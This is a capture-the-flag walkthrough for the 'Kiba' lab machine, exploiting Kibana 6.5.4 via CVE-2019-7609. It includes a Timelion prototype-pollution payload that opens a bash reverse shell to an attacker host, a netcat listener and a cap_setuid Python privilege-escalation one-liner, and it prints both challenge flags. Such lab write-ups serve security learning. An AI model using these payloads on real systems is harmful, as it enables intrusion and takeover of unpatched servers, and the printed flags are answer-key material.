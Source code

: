 # Kiba

**1)** after running a scan we can see that 4 ports are open

command i used to scan all the ports:
```
rustscan $IP
```
results:
```
PORT     STATE SERVICE     REASON
22/tcp   open  ssh         syn-ack ttl 63
80/tcp   open  http        syn-ack ttl 63
5044/tcp open  lxi-evntsvc syn-ack ttl 63
5601/tcp open  esmagent    syn-ack ttl 63
```
**2)** by opening the browser and going to **http://$IP:5601/** you will find a web app


![](https://i.imgur.com/OBJLQNj.png)

**3)** if you click into Management you will find the **version** of the webapp on the top left corner wich is **6.5.4**

![](https://i.imgur.com/uEAsjYA.png)

**4)** after some research i found the [vulnerability](https://www.cvedetails.com/cve/CVE-2019-7609/) **CVE-2019-7609** with 10.0 of CVSS score and
i also found a github [repository](https://github.com/mpgn/CVE-2019-7609) explaining this vulnerability

**5)** click into Timelion section of the website and paste this 
```javascript
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/$LHOST/$LPORT 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
replace $LHOST with your local ip addres and $LPORT with a random local port

**6)** start netcat listening on your local port
```bash
nc -lvp $LPORT
```
**7)** click run and then click **canvas** on the left side menu

**8)** after some seconds your shell should appear

**9)** then get the user flag located in /home/kiba/user.txt
```bash
cat /home/kiba/user.txt
THM{1s_easy_pwn3d_k1bana_w1th_rce}
```
**10)** the box says that root can be obtainied throught linux capabilities, then list all the capabilities with:
```bash
getcap -r /
```
after you ran this command you will see a lot of results but the most important are the latest 4 lines 
```bash
/home/kiba/.hackmeplease/python3 = cap_setuid+ep                                                                                                                                                                                           
/usr/bin/mtr = cap_net_raw+ep                                                                                                                                                                                                              
/usr/bin/traceroute6.iputils = cap_net_raw+ep                                                                                                                                                                                              
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```
wich shows a hidden directory /home/kiba/.hackmeplease and an interesting file wich is /home/kiba/.hackmeplease/python3
then by searching in gtfobins i found this [exploit](https://gtfobins.github.io/gtfobins/python/#capabilities)

**11)** then i ran the exploit
```bash
/home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
that gave me root shell

**12)** then get root flag
```bash
cat /root/root.txt
THM{pr1v1lege_escalat1on_us1ng_capab1l1t1es}
```
